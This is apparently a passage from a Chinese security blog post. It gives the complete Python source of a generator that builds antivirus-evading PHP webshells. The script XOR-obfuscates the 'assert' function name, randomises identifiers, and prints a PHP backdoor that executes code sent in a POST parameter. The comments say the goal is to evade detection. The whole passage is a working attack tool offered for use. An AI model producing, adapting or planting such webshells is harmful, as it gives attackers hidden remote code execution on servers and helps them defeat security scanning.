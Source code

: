 最终代码如下：

```
import random

# 命令执行函数
func1 = 'assert'

# 每次生成一个不同的变量（函数）名，长度为len
def random_name(len):
    str = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    return ''.join(random.sample(str,len))

# 每次返回一个len长度的字符串（里面包含特殊字符，用于异或免杀）
def random_keys(len):
    str = '`~-=!@#$%^&amp;*_/+?&lt;&gt;`{``}`|:[]abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
    a = random.sample(str, len)
    return ''.join(a)

# 将字符c1和字符c2进行异或运算，同时将0x转换成x
def xor(c1,c2):
    c = hex(ord(c1)^ord(c2))
    return c.replace('0x',r"x")


# payload生成函数
def gen_payload(func):
    func_line1 = ''
    func_line2 = ''
    key = random_keys(len(func))
    for i in range(0,len(func)):
        enc = xor(func[i],key[i])
        func_line1 += key[i]
        func_line2 += enc
    payload = ''`{`0`}`'^"`{`1`}`"'.format(func_line1,func_line2)
    return payload


shell_form='''
&lt;?php
function `{`func_name`}`($`{`var_name1`}`, $`{`var_name2`}`)`{``{`
    $`{`var_name3`}`=$`{`var_name2`}`;
    \array_walk($`{`var_name1`}`, $`{`var_name3`}`);
`}``}`
$`{`var_name4`}` = `{`func1`}`;
`{`func_name`}`(array($_POST['e']), $`{`var_name4`}`);
?&gt;
'''

def gen_webshell():
    webshell=shell_form.format(func_name=random_name(4), var_name1=random_name(4), var_name2=random_name(4), var_name3=random_name(4), var_name4=random_name(4), func1=gen_payload(func1))
    print(webshell)


gen_webshell()
```
